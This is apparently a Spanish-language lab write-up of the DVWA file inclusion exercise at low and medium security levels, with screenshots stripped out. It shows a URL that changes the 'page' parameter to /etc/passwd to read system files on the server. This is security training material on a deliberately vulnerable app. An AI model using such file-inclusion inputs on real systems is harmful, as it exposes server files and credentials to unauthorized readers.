



# DVWA FILE INCLUSION

## Nivel de seguridad: bajo y medio


### Pasos:

En la URL hay una página de parámetros GET que se utiliza para incluir el archivo.
```
URL: http://172.0.0.1/vulnerabilities/fi/?page=include.php
```

Como vemos en la siguiente captura:



Al cambiar la ubicación de este archivo, podemos leer cualquier archivo en el servidor.
```
URL: http://172.0.0.1/vulnerabilities/fi/?page=/etc/passwd
```
Captura en security low:



Captura en security medium:



En ambos niveles de seguridad podemos acceder a los archivos de la maquina web que alberga el servidor web.